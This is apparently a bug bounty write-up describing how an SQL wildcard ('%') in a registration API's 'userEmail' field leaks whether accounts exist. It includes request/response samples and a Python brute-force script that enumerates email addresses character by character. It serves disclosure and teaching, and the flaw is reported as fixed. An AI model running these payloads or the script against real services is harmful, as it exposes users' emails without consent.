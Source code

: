 ```yaml
---
layout: post
title: Unauthenticated Email Enumeration via API Fuzzing
date: 2024-02-21 15:08 +0530
categories: [bugbounty, writeup]
tags: [bugbounty,API,FUZZ] 
---
```



## Introduction

This blog post explores a recent finding I discovered in a bug bounty target. I stumbled upon a user enumeration issue that exposes email addresses without proper security measures. This vulnerability allows unauthorized users to enumerate all email addresses without authentication or rate limiting, potentially exposing sensitive information.

## Discovery

While testing the registration process, I encountered a POST request to a API endpoint used for email verification in my burp history tab. The endpoint was checking if the email address I entered during registration already existed or not.So i started 
fuzzing the endpoint `/registration` with fuzzing payloads using intruder, I stumbled upon a 500 error code response when I injected a `%` character into the `userEmail` json parameter. The server returned a 500 Internal Server Error along with a  message.

##### Request

```
POST /registration HTTP/2
Host: domain
Content-Type: application/json;charset=UTF-8

{"userEmail":"%"}

```

##### Response

```
There was an unexpected error (type=Internal Server Error, status=500).</div><div>Unable to find com.correnet.matcha.client.model.application.AccessGroup with id 7052; nested exception is javax.persistence.EntityNotFoundException: Unable to find com.correnet.matcha.client.model.application.AccessGroup with id 7052.

```
By observing this error message, my assumption was that the input I passed is executed in a SQL query in the backend. This query likely performs a select statement on all records from the users table where the email column matches any value containing the % character. It's worth noting that `%` is a wildcard character in SQL, indicating any sequence of characters, so logically, it would return all matching entries. The error message returned from the server indicates that there are 7052 entries in the system, providing insight into the number of user accounts present.Based on this assumption, the SQL query executed in the backend might resemble the following, where the % character serves as a wildcard to match any sequence of characters in the email column,

```sql
SELECT * FROM users WHERE email LIKE "{userEmail}"
```
so it will become,

```sql
SELECT * FROM users WHERE email LIKE "%"
```
Further testing this endpoint i figured out the true and false case for the email address existence.

##### False Response Case:
```

HTTP Request Body: {"userEmail":"adamcorta%"}
HTTP Response: "Could not find resource: ApplicationUser identified by adamcorta%"

```
##### True Response Case:
```

HTTP Request: {"userEmail":"adamcorte%"}

HTTP Response: "There was an unexpected error (type=Internal Server Error, status=500).</div><div>Unable to find com.correnet.matcha.client.model.application.AccessGroup with id"

or

HTTP Response: "Anonymous user (not logged in) not authorized for operation: [connect application user to Platform user]"


```


## Exploit

And based on above error messages, I( ChatGPT of course! ) made a wacky Python script to automate the email enumeration:

```python
import requests

def brute_force_attack():
  
    charset = 'abcdefghijklmnopqrstuvwxyz@._'
    initial_string = ''

    last_valid_username = None  
    
    consecutive_errors = 0  
    max_consecutive_errors = 70  
    for initial_char in charset:
        initial_string = initial_char
        while True:
            for char in charset:
                
                payload = initial_string + char + '%'
                response = send_request(payload)

                
                if "500" in response:
                    initial_string += char
                    print(initial_string)
                    break
                elif "403" in response:
                    last_valid_username = payload  
                    print(f"username: {last_valid_username}")
                    initial_string += char
                    consecutive_errors = 0
                    break
                else:
                    
                    consecutive_errors = 0
            else:
                
                consecutive_errors += 1
                if consecutive_errors >= max_consecutive_errors:
                    if last_valid_username is not None:
                        print(f"Last valid username: {last_valid_username}")
                    else:
                        print("No valid username found.")
                    return initial_string
                break  

    else:
        initial_string += charset[0]
    return initial_string



def send_request(payload):
    
    endpoint_url = '{domain}}'  
    url = f"{endpoint_url}/registration"
    headers = {'Content-Type': 'application/json;charset=UTF-8'}
    data = {"userEmail": payload}

    try:
        response = requests.post(url, json=data, headers=headers)
        response.raise_for_status()  
        return response.text
    except requests.exceptions.RequestException as e:
        return str(e)


result = brute_force_attack()
print("The correct username is:", result)
```
![Sample Proof of Concept (PoC)](https://github.com/Jineeshak/jineeshak.github.io/blob/main/assets/img/3.png?raw=true "Username enumeration")

In response to this discovery, the program triaged and fixed the vulnerability by implementing input validation and captcha protection to the registration page.